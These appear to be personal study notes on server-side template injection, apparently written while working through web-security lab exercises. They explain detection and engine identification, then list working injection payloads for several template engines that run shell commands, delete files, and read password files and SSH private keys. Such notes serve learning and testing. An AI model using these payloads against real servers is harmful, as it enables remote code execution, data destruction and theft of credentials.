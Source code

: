 Server Side Template Injection:

	it occurs when user input is concatenated directly into a template, rather than passed in as data, which allows attacker to inject arbitary template directives in order to manipulate the template engine, as it evaluated server-side, makes it much more dangerous than a typical client-side template injection.

in php:

$loader = new Twig_Loader_array(['index' => $this.userinput]);
$this->Twig = new Twig_Environment($loader);
$this->Twig->render('index');

this is taking in user input, and rendering tthat input, this is a potential sink

process:

Detect -> Identify -> Exploit -> Read -> Explore -> Attack

Detect: 
	Fuzz the endpoints with special character and look for any character being interpreted server side
	in plain text context, you have to use {{ payload }},like {{ 4*4 }}
	in code context, engine.render("hello {{" + userinput + "}}"), this you have to use jus the code without {{}}, like 4*4, we can breakout of the sytax by pay}}<tag>

Identify:
	once you found the proper endpoit,find the template engine by the kind off error message it returns

Exploit:
?message=<%= system("rm /home/carlos/morale.txt") %>

me}}{% import os %}{{os.system('rm /home/carlos/morale.txt')}}

<#assign command="freemarker.template.utility.Execute"?new()> ${ command("rm /home/carlos/morale.txt") }

{{this.push "return require('child_process').exec('whoami);"}}

Explore:
	all engines expose self or enviromant object that will display all the objects and method thatt you have access from that context, and create custom exploits based on the avaible methods
There will be a lot of objects that are site specific which you can play around with

they might have sensistive information etc

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}

user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')}}{{user.gdprDelete()}}




